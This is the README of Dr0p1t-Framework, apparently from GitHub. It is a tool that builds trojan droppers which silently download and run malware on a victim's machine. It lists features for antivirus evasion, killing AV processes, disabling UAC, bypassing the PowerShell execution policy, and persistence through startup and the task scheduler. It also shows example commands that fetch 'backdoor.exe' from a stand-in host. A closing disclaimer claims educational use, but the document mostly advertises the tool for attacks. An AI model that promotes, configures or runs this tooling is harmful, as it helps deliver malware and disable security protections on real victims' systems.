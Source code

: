# Dr0p1t-Framework ![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/) [![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg)](http://www.python.org/download/) ![Build Status](https://img.shields.io/badge/Version-1.2-red.svg)
###### *** Version 1.2 , see CHANGELOG.md file ***

Have you ever heard about trojan droppers ?

In short dropper is type of trojans that downloads other malwares and Dr0p1t gives you the chance to create a dropper that bypass most AVs and have some tricks ;)

# Features
- Framework works with Windows and Linux
- Download executable on target system and execute it silently..
- The executable size small compared to other droppers generated the same way
- Self destruct function so that the dropper will kill and delete itself after finishing it work
- Adding executable after downloading it to startup
- Adding executable after downloading it to task scheduler ( UAC not matters )
- Finding and killing the antivirus before running the malware
- Running a custom ( batch|powershell|vbs ) file you have chosen before running the executable
- The ability to disable UAC
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

# Screenshots ( Not updated )
## On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
## On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

### Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  --nouac      Disable UAC on victim device
  --nocompile  Tell the framework to not compile the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
### Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --nouac -i flash.ico
```
# Prerequisites
- Python 2 or Python 3.

>The recommended version for Python 2 is 2.7.x , the recommended version for Python 3 is 3.5.x and don't use 3.6 because it's not supported yet by PyInstaller

- Python libraries requirements in requirements.txt

### Needed dependencies for linux
- Wine
- Python 2.7 on Wine Machine

>Note : You must have root access

# Installation
if you are on linux and do
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
chmod 777 -R Dr0p1t-Framework
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:

### Tested on:

- Kali Linux - SANA
- Ubuntu 14.04-16.04 LTS
- Windows 10/8.1/8

## Todo [Check out this link](https://github.com/D4Vinci/Dr0p1t-Framework/projects/1)

## Contact
- [Twitter](https://twitter.com/D4Vinci1)
- [Facebook](https://www.facebook.com/kareem.shoair)

## Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes. Use it only for work or educational purpose !!!

Copying a code from this framework or using it in another tool is accepted as you mention where you get it from :smile:

> Pull requests are always welcomed :D

# Much more features to come, stay tuned !!
